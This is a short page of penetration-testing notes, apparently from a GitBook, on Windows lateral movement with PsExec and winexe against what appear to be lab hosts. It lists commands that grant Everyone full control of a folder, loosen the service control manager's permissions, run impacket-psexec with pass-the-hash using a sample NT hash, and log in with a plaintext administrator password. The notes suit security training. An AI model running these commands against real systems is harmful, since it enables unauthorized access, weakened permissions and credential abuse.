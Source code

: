 # PsExec

### Requirements for PsExec to work

1. User is able to write a file to the share.
2. Create and start a service.

<details>

<summary>Enabling Writable Shares</summary>

* Right-click --> Properties

<img src="../.gitbook/assets/image (97).png" alt="" data-size="original">

* Sharing tab --> Advanced Sharing. Check the `Share this folder` checkbox.

<img src="../.gitbook/assets/image (71).png" alt="" data-size="original">

* Click `Apply` and `ok` for all.

![](<../.gitbook/assets/image (38).png>)

</details>

<details>

<summary>Change permissions of unwritable shared folders</summary>

```sh
cd c:\windows\temp
icacls .
icacls . /grant :r Everyone:F
```

</details>

<details>

<summary>Allows ability to create and start a service</summary>

```sh
sc sdset scmanager "D:(A;;KA;;;AU)(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)"
```

</details>

<details>

<summary>Check if able to login using PsExec</summary>

Login PsExec with username and password

```bash
impacket-psexec corp1/sqlsvc@appsrv01
```

* password prompt will appear

</details>

<details>

<summary>PTH PsExec (pass-the-hash)</summary>

```bash
impacket-psexec resourced/jack@192.168.231.175 -hashes <lm>:<nt>
```

* From Win 10, Microsoft made the change so LM hashes are not used anymore, but since tools are legacy:

```bash
impacket-psexec resourced/jack@192.168.231.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808
```

</details>

### Using Winexe

```bash
winexe -U Administrator%Welcome1! //10.10.10.72 "cmd.exe"
```

